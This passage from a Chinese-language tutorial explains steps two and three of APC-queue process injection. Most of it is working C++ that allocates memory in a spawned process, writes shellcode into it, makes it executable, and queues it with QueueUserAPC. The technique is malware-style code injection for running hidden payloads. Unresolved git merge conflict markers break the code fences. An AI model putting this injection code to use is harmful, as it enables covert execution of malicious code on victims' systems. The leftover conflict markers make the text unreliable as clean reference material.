 第二步，利用正常的注入技术注入到拉起的新进程中，非常经典的三个函数调用：

-   VirtualAllocEx 分配一个 rw 内存
-   WriteProcessMemory 写入 shellcode
-   VirtualProtectEx 修改内存权限为 rx

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
std::tuple<BOOL, PVOID> InjectShellcode(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {
    SIZE_T sNumberOfBytesWritten = NULL;
    PVOID pAddress = nullptr;
    pAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pAddress == NULL) {
        std::cerr << "\n\t[!] VirtualAllocEx Failed With Error : " << GetLastError() << std::endl;
        return std::make_tuple(FALSE, nullptr);
    }
    std::cout << "\n\t[i] Allocated Memory At : 0x" << pAddress << std::endl;
    std::cout << "\t[#] Press <Enter> To Write Payload ... ";
    if (!WriteProcessMemory(hProcess, pAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
        std::cerr << "\n\t[!] WriteProcessMemory Failed With Error : " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pAddress, 0, MEM_RELEASE);
        return std::make_tuple(FALSE, nullptr);
    }
    std::cout << "\t[i] Successfully Written " << sNumberOfBytesWritten << " Bytes" << std::endl;

    DWORD dwOldProtection = NULL;
    if (!VirtualProtectEx(hProcess, pAddress, sSizeOfShellcode, PAGE_EXECUTE_READ, &dwOldProtection)) {
        std::cerr << "\n\t[!] VirtualProtectEx Failed With Error : " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pAddress, 0, MEM_RELEASE);
        return std::make_tuple(FALSE, nullptr);
    }

    return std::make_tuple(TRUE, pAddress);
}
```

第三步，需要调用插入 APC 队列，当回调发生的时候指向我们的 shellcode 地址

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL);
```
